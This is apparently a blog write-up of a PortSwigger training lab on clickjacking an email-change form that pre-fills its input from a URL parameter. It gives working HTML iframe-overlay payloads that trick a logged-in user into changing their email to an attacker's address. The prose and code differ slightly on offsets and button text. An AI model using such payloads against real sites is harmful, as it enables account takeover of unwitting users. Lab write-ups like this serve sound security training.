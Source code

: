 ![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-cover.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-cover.png)

In this apprentice level lab, we will exploit the change email flow from a website vulnerable to clickjacking due to form filling via url parameters.

---

Upon logging in with the given credentials, we notice that after going to the acount page, all that is needed to change a user’s email is click on the `Update Email` button and that the `email` input can be prefilled by adding it via url parameters. Let’s use the writing material’s clickjacking template to craft our exploit:

```jsx
<head>
	<style>
		iframe {
			position:relative;
			width:700px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		div {
			position:absolute;
			z-index:1;
			}
	</style>
</head>
<body>
	<div>
		CLICK HERE
	</div>
	<iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
	</iframe>
</body>
```

This is how the template looks on our exploit server:

![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-1.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-1.png)

We need to modify the location of the `CLICK ME` div tag so that it is on top of the `Update Email` button on the vulnerable website. Note that we are setting the iframe’s opacity to `0.1` to be able to check the exploit appearance and then modifying the div’s top and left CSS properties so that when a logged in user clicks on the `CLICK ME` div on our website, they are actually clicking on the vulnerable website’s button to update their email to whatever we previously set in the URL parameters. After setting the top property to 500px and the left property to 50px, it looks like the buttons are aligned to perform a successful attack. At this point, our exploit looks like this:

```jsx
<head>
	<style>
		iframe {
			position:relative;
			width:700px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		div {
			position:absolute;
			z-index:1;
			top:450px;
			left:50px;
			}
	</style>
</head>
<body>
	<div>
		CLICK HERE
	</div>
	<iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
	</iframe>
</body>
```

![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-2.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-2.png)

All we need to do is set the iframe’s opacity to 0.00001 or something similar so that it is almost invisible and send the exploit to our victim.

Check out this post in Art Of Code: https://artofcode.tech/portswigger-lab-write-up-clickjacking-with-form-input-data-prefilled-from-a-url-parameter/
